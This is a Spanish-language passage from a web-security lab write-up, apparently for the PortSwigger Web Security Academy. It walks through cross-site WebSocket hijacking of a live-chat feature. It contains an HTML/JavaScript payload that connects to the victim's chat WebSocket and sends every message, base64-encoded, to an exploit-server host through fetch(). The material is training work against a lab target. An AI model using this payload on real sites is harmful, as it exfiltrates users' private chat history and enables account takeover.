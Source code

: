 ```
                    } else if (messageJson['error']) {
                        writeMessage('message', "Error:", messageJson['error']);
                    }
                }
            };

            newWebSocket.onclose = function (evt) {
                webSocket = undefined;
                writeMessage("message", "System:", "--- Disconnected ---");
            };
        });
    }
})();
```

Usando el `archivo anterior` como `plantilla`, vamos a construirnos un `pequeño payload` que nos permita `tramitar` una `petición` al `Live chat`

```
<html>
    <body>
        <script>
            var webSocket = new WebSocket('wss://0ae5003804c578d380f0172500c9009c.web-security-academy.net/chat');

            webSocket.onopen = function() {
                webSocket.send("READY");
            };

            webSocket.onmessage = function(event) {
                var message = event.data;
                fetch('https://exploit-0ab000e304bb78ce80481698015c007f.exploit-server.net/exploit?log=' + btoa(message), {method: 'GET'});
            };
        </script>
    </body>
</html>
```

Nos `abrimos` el `Exploit server` y `pegamos` el `payload`

![](/assets/img/CSRF-Lab-9/image_14.png)
